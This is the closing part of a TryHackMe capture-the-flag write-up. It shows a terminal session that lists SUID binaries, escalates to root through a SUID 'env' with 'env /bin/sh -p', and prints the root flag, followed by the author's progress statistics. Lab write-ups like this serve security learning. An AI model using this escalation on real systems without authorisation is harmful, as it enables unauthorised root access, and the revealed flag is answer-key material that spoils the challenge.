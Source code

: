 <br>

> 1.6. <em>root.txt</em><br><a id='1.6'></a>
>> <code><strong>4d930091c31a622a7ed10f27999af363</strong></code>

<br>

<pre><code>namelessone@anonymous:~$ sudo -l
sudo: no tty present and no askpass program specified
namelessone@anonymous:~$ find / -user root -perm -u=s 2>/dev/null
find / -user root -perm -u=s 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
...
/usr/bin/passwd
/usr/bin/env
...
namelessone@anonymous:~$ env /bin/sh -p
env /bin/sh -p
whoami
root
ls 
pics
user.txt
cd root
/bin/sh: 3: cd: can't cd to root
cat /root/root.txt
4d930091c31a622a7ed10f27999af363
</code></pre>

<br>
<h2>Room Complete<a id='2'></a></h2>
<p>Keep learning, keep growing!</p>

<p align="center"> <img width="750px" src="https://github.com/user-attachments/assets/adbf4d86-4cf4-46f1-8b72-a07a8aaa72d9"></p>

<h2>My Journey<a id='3'></a></h2>
<p>Following I share the status of my journey in TryHackMe.</p>

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     |
| :---------------: | :------- | :----------- | :----------- | :---------- | :--------- | :------  | :-------- |
|                   |          | WorldWide    | Brazil       | WorldWide   | Brazil     |          | Completed |
| November 11, 2024 | 189      |       1,237ª |          25ª |      4,023ª |        54ª | 54,878   |       416 |

</div>


<p align="center"> <img width="750px" src="https://github.com/user-attachments/assets/cd6b7bcc-1bbe-4576-a12d-3591bd10d6ac"></p>

<p style="text-align: center;">Thank you for coming. Hope to learn together again!!</p>
